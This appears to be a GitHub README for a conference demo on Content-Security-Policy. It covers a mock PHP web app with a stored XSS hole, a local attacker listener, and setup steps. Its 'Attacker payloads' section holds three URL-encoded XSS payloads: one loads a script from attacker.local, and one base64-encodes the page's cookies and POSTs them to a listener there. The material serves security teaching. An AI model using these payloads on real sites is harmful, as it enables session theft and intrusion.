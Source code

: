 # Research on Content-Security-Policy

## Introduction

💬 This folder contains all my work for the presentation about Content-Security-Policy (CSP) given at the [VOXXED LU 2024](https://luxembourg.voxxeddays.com/en/) conference..

💻 [VSCode](https://code.visualstudio.com/) was used as main [IDE](https://en.wikipedia.org/wiki/Integrated_development_environment).

💻 A distribution of [Chromium](https://chromium.woolyss.com/download/en/) for Windows was used to work on this research. It was stored in a folder, named **chromium**, located at the root of the project folder (added to [git ignore file](.gitignore)).

## Content

* 📄 Files:
  * [pitch.docx](pitch.docx): Contains the synopsis, in french, of the presentation.
  * [code.code-workspace](code.code-workspace): VScode workspace descriptor.
  * [scratchpad.md](scratchpad.md): Contains all the technical notes and information gathered during the work on the presentation.
* 📂 Folders:
  * [app](app/): Contains the mock web application with the XSS used for the context of the presentation.
  * [attacker](attacker/): Contains the web listeners and payloads used to exploit the XSS as the attacker.
  * [sources](sources/): Contains the original files of different elements used.

## Run the app

📑 **Step 1** - Add these entries to your **hosts** file:

```text
127.0.0.1 attacker.local
127.0.0.1 righettod.local
```

 👨‍💻 **Step 2** - Run the following command, from the **attacker** folder:

```powershell
PS> php -S localhost:9000
PHP 7.3.4 Development Server started 
Listening on http://0.0.0.0:9000
```

👨‍💻 **Step 3** - Run the following command, from the **app** folder:

```powershell
PS> php -S localhost:8000
PHP 7.3.4 Development Server started 
Listening on http://0.0.0.0:8000
```

🌏 Then, browse on <http://localhost:8000> to access the sample app.

## Attacker payloads

😈 This is the content to add into the file [comments.json](app/store/comments.json) of the app to simulate the differents stored XSS performed by the attacker:

```json
[
    {
        "userName": "remote payload",
        "userEmail": "dom@attacker.lu",
        "userComment": "%3Cimg+src%3D%27x%27+onerror%3D%27%24.getScript%28%5C%22%2F%2Fattacker.local%3A9000%2Fpayload.js%5C%22%29%27%3E"
    },
    {
        "userName": "embedded payload v1",
        "userEmail": "dom@attacker.lu",
        "userComment": "%3Cimg%20src%3D%27x%27%20onerror%3D%27fetch%28%5C%22%2Fapi%2Ephp%3Fsource%3Dxss%5C%22%29%3Balert%28%5C%22Evil%20code%20loaded%20%3A%29%5C%22%29%3B%27%3E"
    },
    {
        "userName": "embedded payload v2",
        "userEmail": "dom@attacker.lu",
        "userComment": "%3Cimg%20src%3D%27x%27%20onerror%3D%27let%20cke%3Dbtoa%28document%2Ecookie%29%3Blet%20bdy%3Ddocument%2EgetElementsByTagName%28%5C%22body%5C%22%29%5B0%5D%3Blet%20frm%3Ddocument%2EcreateElement%28%5C%22form%5C%22%29%3Bfrm%2EsetAttribute%28%5C%22method%5C%22%2C%5C%22post%5C%22%29%3Bfrm%2EsetAttribute%28%5C%22action%5C%22%2C%5C%22%2F%2Fattacker%2Elocal%3A9000%2Flistener%2Ephp%5C%22%29%3Blet%20prm%3Ddocument%2EcreateElement%28%5C%22input%5C%22%29%3Bprm%2EsetAttribute%28%5C%22type%5C%22%2C%5C%22hidden%5C%22%29%3Bprm%2EsetAttribute%28%5C%22name%5C%22%2C%5C%22data%5C%22%29%3Bprm%2EsetAttribute%28%5C%22value%5C%22%2Ccke%29%3Bfrm%2EappendChild%28prm%29%3Bbdy%2EappendChild%28frm%29%3Bfrm%2Esubmit%28%29%3B%27%3E"
    }
]
```

## References

* [Base of the mock web app](https://themewagon.com/themes/fruitables-free/).
* [PHP download for Windows](https://windows.php.net/download#php-8.3).
* [Chromium download](https://chromium.woolyss.com/download/en/).
